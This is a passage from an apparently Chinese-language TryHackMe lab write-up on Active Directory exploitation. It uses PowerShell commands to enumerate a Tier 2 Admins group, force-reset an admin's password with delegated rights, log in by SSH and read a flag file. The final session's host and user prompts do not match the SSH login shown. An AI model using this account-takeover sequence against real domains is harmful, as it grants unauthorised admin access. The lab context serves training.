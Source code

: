 ```


获取"Tier 2 Admins"组成员，看到有t2_henry.harvey的信息
```
PS C:\> Get-ADGroupMember -Identity "Tier 2 Admins"

...
...

distinguishedName : CN=t2_henry.harvey,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc 
name              : t2_henry.harvey
objectClass       : user
objectGUID        : a3c2db31-6362-4af7-8a3e-20e0c16a664f
SamAccountName    : t2_henry.harvey
SID               : S-1-5-21-3885271727-2693558621-2658995185-4275

```


强制修改密码,报错报Access is denied
```
PS C:\> $Password = ConvertTo-SecureString "max.123456" -AsPlainText -Force 
PS C:\> Set-ADAccountPassword -Identity "t2_henry.harvey" -Reset -NewPassword $Password               
Set-ADAccountPassword : Access is denied 
At line:1 char:1
+ Set-ADAccountPassword -Identity "t2_henry.harvey" -Reset -NewPassword ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (t2_henry.harvey:ADAccount) [Set-ADAccountPassword], UnauthorizedA  
   ccessException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:System.UnauthorizedAccessException,Microsoft.ActiveDirectory.M  
   anagement.Commands.SetADAccountPassword

```

教程说需要等10分钟断开再连ssh测试,原因是：

> 权限尚未通过域传播。这最多可能需要 10 分钟。最好的方法是终止您的 SSH 或RDP会话，稍作休息，然后重新验证并重试。您也可以运行gpupdate /force然后断开连接并重新连接，这在某些情况下会导致同步发生得更快

几分钟后再次修改，修改成功
```
PS C:\Users\max.smith> $Password = ConvertTo-SecureString "max.123456" -AsPlainText -Force
PS C:\Users\max.smith> Set-ADAccountPassword -Identity "t2_henry.harvey" -Reset -NewPassword $Password
PS C:\Users\max.smith>  

```

现在可以通过```t2_henry.harvey:max.123456```登录ssh
```
┌──(root💀kali)-[~/tryhackme/ExploitingActiveDirectory]
└─# ssh za.tryhackme.loc\\t2_henry.harvey@thmwrk1.za.tryhackme.loc
za.tryhackme.loc\t2_henry.harvey@thmwrk1.za.tryhackme.loc's password: 


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt
